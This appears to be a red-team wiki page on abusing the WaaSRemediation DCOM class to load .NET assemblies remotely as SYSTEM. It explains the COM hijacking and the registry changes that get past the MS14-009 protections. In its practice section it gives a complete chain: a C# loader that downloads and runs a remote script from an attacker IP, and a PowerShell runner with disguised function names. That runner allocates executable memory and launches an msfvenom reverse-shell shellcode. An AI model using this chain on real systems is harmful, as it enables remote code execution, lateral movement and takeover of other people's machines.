

# Remote .NET Assembly Loading through WaaSRemediation DCOM Abuse

## Theory

The **`IDispatch`** interface exposed in the **`WaaSRemediation`** COM class, can be manipulated for trapped COM object abuse and .NET code execution. **`WaaSRemediation`** is implemented in the **`WaaSMedicSvc`** service, which executes as a [**Protected Process Light (PPL)**](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-#system-protected-process) **svchost.exe** process in the context of NT AUTHORITY\SYSTEM. This technique was discovered In February 2025 by James Forshaw ([@tiraniddo](https://x.com/tiraniddo)) from Google Project Zero&#x20;

Fore more information about [COM ](https://learn.microsoft.com/en-us/windows/win32/com/com-technical-overview)and DCOM, check [this page](../../pivoting/dcom.md).

#### Trapped COM Objects

A trapped COM object is a bug class in which a COM client instantiates a COM class in an out-of-process DCOM server, where the client controls the COM object via a marshaled-by-reference object pointer. Depending on the condition, this control vector may present security-related logic flaws.

#### IDispatch

The [IDispatch](https://learn.microsoft.com/en-us/windows/win32/api/oaidl/nn-oaidl-idispatch) interfaces  facilitates late binding to methods and properties of COM objects.  Unlike traditional COM clients that use compile-time interface definitions, late binding allows clients to discover and call methods dynamically at runtime

The [IDispatch](https://learn.microsoft.com/en-us/windows/win32/api/oaidl/nn-oaidl-idispatch) interface support the following methods:

* `GetTypeInfoCount` : returns 0 or 1 if the object provides type information.
* `GetTypeInfo` : Provides access to an `ITypeInfo` interface for retrieving type information of an object.
* `GetIDsOfNames` : takes human-readable names (such as "Workbooks") and returns a number (known as a dispatch identifier or dispID) that maps to the object's associated method or property.
* `Invoke` : Once you have the dispID number, you use Invoke to call the method or retrieve property data.

Via `ITypeLib` from `GetTypeInfo->ITypeInfo->GetContainingTypeLib` ,a client can retrieve type information of a COM class that use a type library.

In our case, the, **`WaaSRemediation`** references the type library **`WaaSRemediationLib`,** which in turn references **`stdole`** (OLE Automation). **`WaaSRemediationLib`** utilizes two COM classes from that library, **`StdFont`** and **`StdPicture`**. By performing [COM Hijacking](https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/) on the **`StdFont`** object via modifying its **`TreatAs`** registry key, the class will point to another COM class of our choosing, such as **`System.Object`** in the .NET Framework.

.NET objects are interesting to us because of **`System.Object`**’s **`GetType`** method. Through **`GetType`,** we can perform .NET reflection to eventually access **`Assembly.Load`**. While **`System.Object`** was chosen, this type happens to be the root of the type hierarchy in .NET. Therefore, any .NET COM object could be used.

#### **AllowDCOMReflection**

To leverage this technique, we need to enable the `AllowDCOMReflection` (DWORD) value under the `HKLM\Software\Microsoft\.NetFramework` registry key.  This setting allows arbitrary reflection to call any .NET method, bypassing the mitigations in MS14-009 that typically prevent .NET reflection over DCOM.

#### **OnlyUseLatestCLR**

To ensure the correct version of the .NET CLR is loaded, we must also enable the `OnlyUseLatestCLR` (DWORD) value under the `HKLM\Software\Microsoft\.NetFramework` registry key.  This setting ensures the latest .NET CLR (version 4) is loaded, as the default is version 2 unless explicitly enabled.

## Practice



#### ForsHops

To leverage the previously explained method, we can use the [ForsHops](https://github.com/xforcered/ForsHops) (C#) proof-of-concept.

```
forshops.exe [target machine] [c:\\path\\to\\assembly\\to\\load]
```

#### POC Demo

In this demo, we will use the below C# code that loads a[ custom PowerShell runspace](https://red.infiltr8.io/redteam/weapon/code-execution/whithout-powershell) to retrieve and execute a second-stage payload directly in memory.


```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

class Program
{
    static void Main()
    {
        string command = "IEX(New-Object Net.WebClient).DownloadString('http://192.168.206.126/run.txt')";

        using (Runspace runspace = RunspaceFactory.CreateRunspace())
        {
            runspace.Open();
            using (PowerShell ps = PowerShell.Create())
            {
                ps.Runspace = runspace;
                ps.AddScript(command);

                foreach (var result in ps.Invoke())
                {
                    Console.WriteLine(result);
                }
            }
        }
    }
}
```


After compiling our malicious .NET as GetRev.exe,  we host the following run.txt file on our attacking machine:


```powershell
function potatoes {
Param ($cherries, $pineapple)
$tomatoes = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
$turnips=@()
$tomatoes.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$turnips+=$_}}
return $turnips[0].Invoke($null, @(($tomatoes.GetMethod('GetModuleHandle')).Invoke($null, @($cherries)), $pineapple))
}
function apples {
Param (
[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
[Parameter(Position = 1)] [Type] $delType = [Void]
)
$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
$type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
$type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
return $type.CreateType()
}
$cucumbers = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll VirtualAlloc), (apples @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

# MSFVenom reverse Shell
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x48,0x31,0xd2,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x50,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x4d,0x31,0xc9,0x48,0x1,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,0xd,0xac,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x1,0xbb,0xc0,0xa8,0xce,0x7e,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0x49,0xff,0xce,0x75,0xe5,0xe8,0x93,0x0,0x0,0x0,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x4,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,0x59,0x68,0x0,0x10,0x0,0x0,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x0,0x40,0x0,0x0,0x41,0x58,0x6a,0x0,0x5a,0x41,0xba,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x1,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,0x6a,0x0,0x59,0xbb,0xe0,0x1d,0x2a,0xa,0x41,0x89,0xda,0xff,0xd5

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $cucumbers, $buf.length)
$parsnips =
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll CreateThread), (apples @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$cucumbers,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll WaitForSingleObject), (apples @([IntPtr], [Int32]) ([Int]))).Invoke($parsnips, 0xFFFFFFFF)  
```


Finally we can use the [ForsHops](https://github.com/xforcered/ForsHops) (C#) proof-of-concept to execute GetRev.exe assembly on a remote computer:

<figure><figcaption></figcaption></figure>



At time of writting this technique can't be performed from an UNIX-based host.



## Resources








